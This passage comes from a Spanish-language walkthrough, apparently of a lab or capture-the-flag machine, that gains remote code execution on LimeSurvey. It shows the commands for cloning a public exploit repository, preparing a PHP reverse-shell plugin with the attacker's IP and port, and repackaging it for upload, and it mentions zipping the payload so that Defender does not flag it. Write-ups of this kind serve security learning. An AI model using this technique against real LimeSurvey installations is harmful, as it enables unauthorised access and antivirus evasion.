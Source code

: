 ![Write-up Image](images/Screenshot_22.png)

Ahora nos clonamos [este repositorio](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE) que nos va a crear el plugin malicioso que necesitamos.
```console
git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
Cloning into 'Limesurvey-RCE'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 24 (delta 2), reused 0 (delta 0), pack-reused 18 (from 1)
Receiving objects: 100% (24/24), 10.00 KiB | 3.33 MiB/s, done.
Resolving deltas: 100% (5/5), done.
```

Extraemos el zip que nos viene, esto es para que el Defender no detecte la reverse-shell como malware de primeras.
```console
unzip Y1LD1R1M.zip
Archive:  Y1LD1R1M.zip
replace config.xml? [y]es, [n]o, [A]ll, [N]one, [r]ename: A
  inflating: config.xml
  inflating: php-rev.php
```

Editamos la reverse shell y le especificamos nuestra IP de atacante y el puerto por el que vamos a estar en escucha, en este caso el puerto 443.
![Write-up Image](images/Screenshot_23.png)

Por como está hecho el sistema de plugins, tenemos que borrar el zip que nos venía y crearlo de nuevo con la nueva reverse shell para poder subirlo a `LimeSurvey` y lo detecte como un plugin válido.
```console
rm Y1LD1R1M.zip
zip -r Y1LD1R1M.zip config.xml php-rev.php
  adding: config.xml (deflated 56%)
  adding: php-rev.php (deflated 61%)
```
